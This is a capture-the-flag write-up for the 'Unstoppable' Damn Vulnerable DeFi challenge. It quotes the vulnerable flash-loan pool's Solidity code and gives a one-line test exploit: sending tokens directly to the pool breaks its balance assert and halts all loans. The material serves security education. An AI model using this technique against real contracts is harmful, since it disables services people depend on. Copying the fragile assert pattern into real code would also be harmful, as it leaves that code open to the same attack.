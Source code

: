 # 1 - Unstoppable

### Problem with similar topic

* Ethernaut [15 - Naught Coin](https://frenchkebab.gitbook.io/ctf-solutions/ethernaut/15-naught-coin)

## Walkthroguh

<details>

<summary>Key to solve this problem 🔑</summary>

* **reentrancy** is not the only way to break contracts
* always check `require` and `assert` conditions carefully

</details>

We will break the `assert` statement.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore); // <- we will break here!

    damnValuableToken.transfer(msg.sender, borrowAmount);

    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

```solidity
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

`depositTokens` function updates `poolBalance` if you deposited tokens by calling it.

But we can simply transfer tokens to **`UnstoppableLender`** contract by using ERC20 `transfer` function without using `depositTokens`.

## Solution

```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  await this.token.connect(attacker).transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```

